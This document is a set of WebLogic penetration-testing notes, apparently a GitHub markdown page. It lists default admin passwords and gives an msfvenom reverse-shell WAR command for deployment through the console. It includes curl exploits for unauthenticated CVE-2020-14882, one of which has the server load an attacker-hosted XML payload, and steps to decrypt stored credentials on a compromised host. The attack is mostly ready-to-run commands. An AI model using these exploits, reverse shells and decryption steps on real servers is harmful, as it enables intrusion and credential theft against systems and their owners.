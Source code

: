 ```yaml
---
title: WebLogic pentest notes
---
```


Default passwords
=================

| Version | Account | Default password |
|---------|---------|------------------|
| <= 10   | weblogic| weblogic         |
| >= 11   | weblogic| weblogic1 *or* Welcome1 *or* welcome1 |


RCE from admin account
======================
Generate a WAR file using msf.

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=xx.xx.xx.xx LPORT=1234 -f war > peace.war
```

Then deploy on the web interface. First enter the deployment menu, second lock the configuration for editing and then click install. This gives the option to upload a new RAR and install it on the server, triggering the payload:
![lock and edit](./WebLogic/wl.PNG)


Unauthenticated RCE CVE-2020-14882 (fall 2020)
==============================================
[Official Advisory](https://www.oracle.com/security-alerts/alert-cve-2020-14750.html)

Affected versions: 10.3.6.0.0, 12.1.3.0.0, 12.2.1.3.0, 12.2.1.4.0, 14.1.1.0.0

There are loads of other RCEs spanning 2017-2020 but this one is so easy and powerful it kinda renders all the other exploits obsolete.

If Tangosol is present on the target (versions >=12 usually) then direct remote code execution is achieved:
```bash
curl -X POST 'http://target:7001/console/css/%252e%252e%252fconsole.portal'
    --data '_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec(%27touch%20/tmp/rce%27);")'
```

Otherwise an additional malicious webserver hosting a XML paylod is needed, but RCE is achieved nonetheless.

Hosted XML file ```wl.xml```:
```xml
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>touch</value>
            <value><![CDATA[/tmp/rce]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

```bash
curl -X POST 'http://target:7001/console/css/%252e%252e%252fconsole.portal'
    --data '_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext(%22http://xx.xx.xx.xx/wl.xml%22)'
```

Of course, the WebLogic server needs to have network visibility on the hosted payload.


Decrypting passwords
====================

Offline
-------
On the compromised host, recover these two files:

* ```SerializedSystemIni.dat```: this is the decryption key in binary format so you usually can't grab it using LFI...
* ```boot.properties```: contains encrypted user and password values

Decrypt using [this python script](https://gist.github.com/gquere/b331d9a8f0c0ffc8ac1fb44123aa8335).


Online
------
Grab the domain path from the ```wl-domains``` folder
```
wlst.sh
wls:/offline> domain = "..."
wls:/offline> service = weblogic.security.internal.SerializedSystemIni.getEncryptionService(domain)
wls:/offline> enc = weblogic.security.internal.encryption.ClearOrEncryptedService(service)
wls:/offline> enc.decrypt('{AES}...')
```
